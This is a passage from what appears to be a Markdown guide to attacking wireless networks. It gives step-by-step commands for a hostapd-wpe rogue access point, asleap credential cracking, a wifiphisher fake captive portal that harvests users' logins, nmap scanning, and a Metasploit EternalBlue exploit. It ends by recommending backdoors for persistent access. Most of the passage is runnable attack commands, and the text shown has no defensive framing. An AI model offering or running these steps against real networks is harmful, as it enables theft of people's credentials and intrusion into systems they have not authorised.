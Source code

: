 
3. **Launch the Attack**:
   Start the rogue AP and wait for clients to connect, capturing EAPOL data.

   ```bash
   sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
   tail -f /var/log/hostapd-wpe.log
   ```

4. **Crack Captured Credentials**:
   Use `asleap` to crack LEAP credentials or other tools for different EAP methods.

   ```bash
   asleap -r /path/to/captured.pcap -f /usr/share/wordlists/rockyou.txt
   ```

#### Method 3: WiFi Phishing

WiFi phishing involves tricking users into providing their credentials via a fake captive portal.

1. **Set Up the Fake AP**:
   As in the Evil Twin attack, set up a rogue AP using `hostapd`.

2. **Configure a Captive Portal**:
   Use a tool like `wifiphisher` to set up a phishing page.

   ```bash
   sudo apt-get install wifiphisher
   sudo wifiphisher --essid "Free WiFi" --no-beacons
   ```

3. **Capture User Credentials**:
   When users try to log in through the captive portal, their credentials are captured.

   ```bash
   tail -f /var/log/wifiphisher.log
   ```

#### Method 4: Pivoting via Compromised Device

Once inside the wireless network, pivot to other devices and services.

1. **Network Scanning**:
   Use tools like `nmap` to enumerate devices and services within the network.

   ```bash
   nmap -sP 192.168.1.0/24
   ```

2. **Exploiting Vulnerabilities**:
   Identify and exploit vulnerable devices using tools like `Metasploit`.

   ```bash
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.1.10
   exploit
   ```

3. **Maintaining Access**:
   Install backdoors or persistent shells to maintain access.
